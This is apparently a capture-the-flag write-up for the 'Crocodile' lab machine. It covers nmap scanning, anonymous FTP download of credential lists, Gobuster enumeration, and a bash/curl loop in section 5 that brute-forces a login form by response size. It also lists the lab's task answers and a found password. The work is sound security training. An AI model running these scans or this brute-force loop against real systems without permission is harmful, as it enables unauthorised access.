


# Crocodile

This write-up is provided strictly for educational purposes, to demonstrate how misconfigurations can be identified and remediated in controlled lab environments.

## Overview

This write-up documents the methodology used to compromise the Crocodile machine. The approach focuses strictly on protocol analysis, response comparison, and controlled brute-force validation.

## Answers Summary

- **Task 1** : Default scripts switch: `-sC`
- **Task 2** : FTP service version: `vsftpd 3.0.3`
- **Task 3** : FTP anonymous code: `230`
- **Task 4** : Anonymous username: `anonymous`
- **Task 5** : FTP download command: `get`
- **Task 6** : Privileged-looking username: `admin`
- **Task 7** : Apache version: `Apache httpd 2.4.41`
- **Task 8** : Gobuster extension switch: `-x`
- **Task 9** : Login page discovered: `login.php`

---

## 1. Initial Reconnaissance

A full TCP port scan was performed using:

```bash
sudo nmap -sSCV <target-ip> -p- --min-rate=1000 -oA cap-nmap
```

This command performs a complete port scan (`-p-`), runs default scripts (`-sC`), detects service versions (`-sV`), increases scan speed (`--min-rate=1000`), and saves the results in multiple output formats (`-oA`).

The scan revealed the following open services:

- **Port 21** — FTP (`vsftpd 3.0.3`)
- **Port 80** — Apache HTTP Server `2.4.41`

The FTP service allowed anonymous login (FTP code `230`). Upon connecting anonymously, two accessible files were discovered.



This misconfiguration immediately suggested potential credential exposure.

---

## 2. FTP Enumeration

Connected using:

```bash
ftp <target-ip>
```

**Username:** `anonymous`

After listing files with `ls`, two interesting files were identified:

- `allowed.userlist`
- `allowed.userlist.passwd`

Both files were downloaded using:

```bash
get allowed.userlist
get allowed.userlist.passwd
```



These files contained potential usernames and passwords.

---

## 3. Directory Enumeration with Gobuster

To identify potential entry points within the web application, directory enumeration was performed using Gobuster.

```bash
gobuster dir -u http://<target-ip>/ -w /usr/share/wordlists/dirb/common.txt -x php
```

This command performs directory brute forcing in directory mode (`dir`), targeting the web root of the application. The wordlist `common.txt` is used to test common directory and file names, while the `-x php` switch ensures that files with the `.php` extension are also included in the scan.

The scan revealed several accessible paths, including:

- `/config.php` (Status: 200)
- `/index.html` (Status: 200)
- `/login.php` (Status: 200)


Among these findings, `/login.php` was particularly interesting, as it exposed an authentication form.

This discovery provided a direct opportunity to test credential pairs previously obtained from the FTP service.

With the login endpoint identified, the next step was to determine how the application handled authentication failures.

---

## 4. Web Authentication Analysis

The web service exposed a login form at:

```
http://<target-ip>/login.php
```

Instead of manually testing credentials blindly, we analyzed the HTTP behavior of failed login attempts.

A test request was sent using curl:

```bash
curl -s -X POST http://<target-ip>/login.php \
-d "Username=test&Password=test&Submit=Login" | wc -c
```

The response size was:

```
1978 bytes
```

Multiple incorrect credentials were tested, and the response size consistently remained `1978` bytes.

This indicated that failed logins returned a constant-sized HTML page.

---

## 5. Detecting a Valid Login via Response Size

To identify valid credentials, we automated testing of all username/password combinations from the downloaded files and compared response sizes.

```bash
for u in $(cat allowed.userlist); do
  for p in $(cat allowed.userlist.passwd); do
    size=$(curl -s -X POST http://<target-ip>/login.php \
      -d "Username=$u&Password=$p&Submit=Login" | wc -c)
    if [ "$size" -ne 1978 ]; then
      echo "[+] FOUND -> $u : $p (size: $size)"
    fi
  done
done
```

The script identified one combination returning a different response size:

```
[+] FOUND -> admin : rKXM59ESxesUFHAd (size: 1258)
```


This deviation confirmed successful authentication.

---

## 6. Authentication and Flag Retrieval

Using the discovered credentials:

- **Username:** `admin`
- **Password:** `rKXM59ESxesUFHAd`

We authenticated successfully to the web application and were able to retrieve the flag.

---

## Key Takeaways

- HTTP status codes alone are not always reliable indicators of success/failure.
- When applications return `200 OK` for both valid and invalid attempts, response size comparison is a powerful detection technique.
- FTP misconfigurations exposing credential lists can directly lead to web authentication compromise.
- Automated response-differential analysis is more reliable than naive brute-force attempts.

---

## Conclusion

The Crocodile machine was compromised through structured enumeration and credential exposure via anonymous FTP access.
The discovered username and password lists enabled controlled brute-force testing against the web login.
Since the application returned `HTTP 200` for all attempts, response-size comparison was used to identify valid credentials.
This method demonstrates how misconfigurations can lead to full compromise when properly analyzed.
